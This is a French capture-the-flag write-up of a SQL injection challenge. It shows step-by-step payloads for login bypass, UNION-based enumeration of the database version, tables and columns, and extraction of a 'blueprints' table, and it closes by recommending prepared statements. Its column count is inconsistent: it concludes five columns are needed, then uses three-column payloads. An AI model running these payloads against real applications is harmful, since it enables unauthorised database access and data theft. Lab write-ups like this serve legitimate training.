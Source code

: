 SQL Injection et récupération de données sensibles

Dans ce challenge, on a un formulaire avec deux champs : `username` et `password`. Notre objectif est d'exploiter une faille SQL Injection pour extraire des données sensibles de la base de données.
![Screenshot](images/web_chall_description.png)
---

#### **Étape 1 : Tester une injection basique**

J'ai commencé par tester une injection SQL simple dans le champ `password`. Voici le payload utilisé :

`username=admin&password='OR''='`

**Résultat :**  
Le serveur retourne une liste d’utilisateurs présents dans la base de données :


![Screenshot](images/web_sqli_auth_bypass.png)

---

#### **Étape 2 : Déterminer le nombre de colonnes**

Ensuite, j’ai essayé de déterminer le nombre de colonnes nécessaires pour une requête SQL valide. J'ai utilisé ce payload :

`username=admin&password=' UNION SELECT null, null, null, null, null, null --` 

Cela a produit une erreur, ce qui indique que 5 colonnes sont nécessaires pour une injection valide.
![Screenshot](images/web_column_nb.png)
---

#### **Étape 3 : Obtenir la version de la base de données**

Avec le nombre correct de colonnes, j’ai utilisé un payload pour récupérer la version de la base de données :

`username=a&password=' UNION SELECT 1, @@version, 3-- -` 

**Résultat :**

![Screenshot](images/web_db_version.png)

Cela indique que la base de données utilise MySQL version 5.7.44.

---

#### **Étape 4 : Lister les tables**

Pour lister les tables disponibles dans la base de données, j’ai utilisé le payload suivant :

`username=a&password=' UNION SELECT 1, TABLE_NAME, 3 FROM INFORMATION_SCHEMA.TABLES-- -` 

**Résultat :**

![Screenshot](images/web_listing.png)

---

#### **Étape 5 : Lister les colonnes d’une table**

Une fois la table `blueprints` identifiée, j’ai listé ses colonnes avec ce payload :

`username=a&password=' UNION SELECT 1, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blueprints'-- -` 

**Résultat :**

![Screenshot](images/web_column_names.png)
---

#### **Étape 6 : Extraire les données de la table**

J’ai ensuite extrait les données de la table `blueprints` en combinant les colonnes :


`username=a&password=' UNION SELECT id, CONCAT(username, ':', password, ':', is_encrypted, ':', file_name, ':', description), 3 FROM blueprints--` 

**Résultat :**

![Screenshot](images/web_extr_infos.png)

---

#### **Étape 7 : Décoder les données**

En regardant de plus près, j'ai trouvé une chaîne intéressante associée au fichier `secret_key.txt` :

`W5HWRxWbZM7AUhxgfRwZg58ANQFKgMwutG`

En la décodant en **Base58**, j’ai trouvé une partie de la flag.


![Screenshot](images/web_decode1.png)
![Screenshot](images/web_decode2.png)


---

### **Conclusion**

Ce challenge démontre l’impact potentiel d’une vulnérabilité SQLi. Grâce à des payloads bien construits, il est possible d’extraire des informations sensibles comme les noms de tables, de colonnes, et même des données critiques. La dernière étape, consistant à décoder les données trouvées, est la clé pour résoudre le challenge. Toujours vérifier les données sensibles dans les bases de données et appliquer des mesures de protection telles que les requêtes préparées pour éviter de telles attaques.